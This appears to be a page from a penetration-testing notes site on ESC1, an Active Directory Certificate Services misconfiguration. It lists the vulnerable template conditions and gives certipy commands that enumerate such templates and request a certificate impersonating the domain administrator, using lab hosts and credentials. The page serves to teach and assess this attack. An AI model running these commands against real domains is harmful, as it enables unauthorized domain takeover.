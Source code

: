 ```yaml
---
description: >-
  Domain escalation via No Issuance Requirements + Enrollable Client
  Authentication/Smart Card Logon OID templates +
  CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT
cover: ../../.gitbook/assets/Attacks by Service.png
coverY: 36.68266666666666
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 1️⃣ ESC1

### Templates vulnerable

Templates vulnerable to ESC1 have the following configurations:

* Client Authentication: True
* Enabled: True
* Enrollee Supplies Subject: True
* Requires Management Approval: False
* Authorized Signatures Required: 0

**ESC1 Requirement 1: An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users.**

**ESC1 Requirement 2: The certificate template allows requesters to specify a subjectAltName in the CSR.**

**ESC1 Requirement 3: The certificate template defines EKUs that enable client authentication.**

**ESC1 Requirement 4: Manager approval is disabled.**

**ESC1 Requirement 5: No authorized signatures are required.**

### ESC1 Enumeration

```sh
certipy find -vulnerable -u attacker@rfs.lan -p 'P@ssw0rd' -dc-ip 192.168.1.20 -stdout
```

### Exploitation of ESC1 <a href="#exploitation-of-esc1" id="exploitation-of-esc1"></a>

{% code overflow="wrap" %}
```sh
certipy req -u attacker -p 'P@ssw0rd' -target-ip 192.168.1.2 -ca 'lab-DC-CA' -template 'ESC1' -upn 'administrator@rfs.lan'
```
{% endcode %}
